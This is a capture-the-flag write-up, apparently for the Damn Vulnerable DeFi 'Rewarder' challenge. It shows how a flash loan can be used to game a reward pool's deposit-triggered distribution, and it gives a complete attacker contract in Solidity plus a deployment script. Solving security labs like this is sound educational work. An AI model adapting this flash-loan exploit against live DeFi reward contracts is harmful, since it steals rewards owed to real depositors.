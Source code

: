 ## GOAL
You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

## Examining the code
Inorder to receive the reward we must depost since in the function deposit we have the function distributeRewards
```solidity
 function deposit(uint256 amountToDeposit) external {
        require(amountToDeposit > 0, "Must deposit tokens");
        
        accToken.mint(msg.sender, amountToDeposit);
        distributeRewards(); //here is the function

        require(
            liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit)
        );
    }
```

## Exploit
Since we have a lending pool, we can make a flashLoan and deposit in the TheRewarderPool.sol, so the distributeRewards will be called,once called we got the reward and it is time to return the funds and get back the rewards.

## Solution
```solidity
contract AttackReward{

    FlashLoanerPool pool;
    TheRewarderPool theRewardPool;
    DamnValuableToken public immutable liquidityToken;
    address payable owner;

    constructor(address _pool,address _liquidityToken,address _theRewardPool,address payable _owner)
    {
        pool = FlashLoanerPool(_pool);
        theRewardPool = TheRewarderPool(_theRewardPool);
        liquidityToken = DamnValuableToken(_liquidityToken);
        owner = _owner;
    }

    function attack(uint256 amount) external
    {
        pool.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external{

        // approve contract to transfer our token
        liquidityToken.approve(address(theRewardPool), amount);

        //deposit to enter the distribute
        theRewardPool.deposit(amount);

        //getting backtokens to return funds
        theRewardPool.withdraw(amount);
        liquidityToken.transfer(address(pool), amount);

        //getting the reward
        theRewardPool.rewardToken().transfer(owner,theRewardPool.rewardToken().balanceOf(address(this)));
    } 
}
```

```javascript
const AttackRewardFactory = await ethers.getContractFactory("AttackReward",attacker);
const attackerContract = await AttackRewardFactory.deploy(
this.flashLoanPool.address,
this.liquidityToken.address,
this.rewarderPool.address,
attacker.address
) 

await ethers.provider.send("evm_increaseTime",[5*24*60*60]);
await attackerContract.attack(TOKENS_IN_LENDER_POOL);
```